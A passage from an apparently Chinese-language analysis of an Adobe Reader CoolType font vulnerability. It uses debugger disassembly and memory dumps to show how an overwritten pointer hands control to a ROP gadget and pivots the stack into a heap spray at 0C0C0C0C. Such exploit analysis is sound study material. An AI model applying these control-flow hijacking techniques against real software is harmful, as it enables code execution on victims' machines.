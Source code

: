 最终来到 `CoolType.0808B116` 里的关键点：

```text
0808B11D    8B7D 08         mov edi,dword ptr ss:[ebp+0x8]
...
0808B2E3    8B47 3C         mov eax,dword ptr ds:[edi+0x3C]         ; eax = ds:[edi+0x3C]
0808B2E6    3BC3            cmp eax,ebx
0808B2E8    8986 F4020000   mov dword ptr ds:[esi+0x2F4],eax
0808B2EE    899E F8020000   mov dword ptr ds:[esi+0x2F8],ebx
0808B2F4    895D FC         mov dword ptr ss:[ebp-0x4],ebx
0808B2F7    75 07           jnz short CoolType.0808B300
0808B2F9    32C0            xor al,al
0808B2FB    E9 94020000     jmp CoolType.0808B594
0808B300    8D4D FC         lea ecx,dword ptr ss:[ebp-0x4]
0808B303    51              push ecx
0808B304    53              push ebx
0808B305    6A 03           push 0x3
0808B307    50              push eax
0808B308    FF10            call dword ptr ds:[eax]                  ; icucnv36.4A80CB38
```

通过最后的 call 指令，程序跳转到了 ROP 链。回忆一下 uniqueName 域从 `0012E4D8` 开始：

```text
4A80CB38    81C5 94070000   add ebp,0x794   ; ebp = 0012E4DC
4A80CB3E    C9              leave           ; esp = 0012E4E0, ebp = C2525D73
4A80CB3F    C3              retn            ; esp = 0012E4E4, eip = 4A82A714

d esp:

0012E4E4  0C 0C 0C 0C BC 94 B0 83 45 A2 04 7D 13 4B 30 18  ....紨皟E?}K0
0012E4F4  98 95 ED 9F 3E CC 50 8B AC FE B5 5C 8F 86 D5 26  槙頍>蘌嫭\弳?
```

于是跳转到 `4A82A714`：

```text
4A82A714    5C              pop esp         ; esp = 0C0C0C0C
4A82A715    C3              retn            ; esp = 0C0C0C10, eip = 4A8063A5
```

在进入下面的内容前，我们再来看一个东西，即 `eax` 是由 `edi` 控制的，通过对函数调用的回溯，可以看到程序对 edi 的处理，它的值在整个过程中都是不变的，而且 edi+0x3C 正好存放第一个 gadget 的地址。所以只要这个地址被覆盖，就可以控制 EIP 了。

<pre>
d edi+0x3C:

0012E754  <b>D0 E6 12 00</b> 00 00 00 00 00 AA 04 08 00 00 00 00  墟......?....    <-- eax

d 0012E6D0:

0012E6D0  <b>38 CB 80 4A</b> 44 B6 49 EA A5 2D 16 26 4B B1 FA D2  8藔JD禝辚-&K柄    <-- ROP
</pre>

### Heap spray

上面的 gadget 返回后，堆栈就被转移到 heap spray 的地方了。
